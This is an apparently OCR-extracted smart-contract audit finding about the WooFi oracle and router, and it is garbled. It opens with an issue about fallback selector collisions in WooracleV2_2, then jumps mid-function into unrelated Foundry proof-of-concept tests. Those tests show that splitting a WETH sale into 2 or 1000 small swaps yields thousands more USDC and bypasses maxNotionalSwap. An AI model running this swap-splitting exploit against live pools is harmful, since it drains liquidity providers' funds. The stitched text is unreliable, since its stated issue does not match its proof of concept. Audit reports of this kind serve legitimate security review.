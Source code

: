 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.

        console.log("Received USDC", receivedUSDC);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 500-500 in single tx
    function test_Sell2Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 2; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 2, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
            cumulative += receivedUSDC;
        }

        console.log("Received USDC", cumulative);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }

    // @dev sell 1-1-1-1.... in single tx
    function test_Sell1000Parts() public {
        uint sellWethAmount = 1000 * 1e18;
        _fundAndApproveAdminAndTapir(1000_0000 * 1e6, sellWethAmount);
        
        uint cumulative;
        for (uint i; i < 1000; ++i) {
            // sell 5 wei dust
            vm.prank(TAPIR);
            uint receivedUSDC = router.swap(WETH, USDC, sellWethAmount / 1000, 0, payable(TAPIR), TAPIR);
            (uint128 price, ) = oracle.woPrice(WETH);
            cumulative += receivedUSDC;
        }

        console.log("Received USDC", cumulative);
        console.log("contract usdc balance", IERC20(USDC).balanceOf(address(pool)));
    }
```

**Results:**
Selling 500-500 instead of 1000 in one go: 3395.800042 USDC more received
Selling 1-1-1-1-... 1000 times instead 1000 in one go: 6776.505788 USDC more received! 

## Impact
Breaking the `maxNotionalSwap` amount and unfair AMM model
## Code Snippet

## Tool used

Manual Review

## Recommendation





## Discussion
````
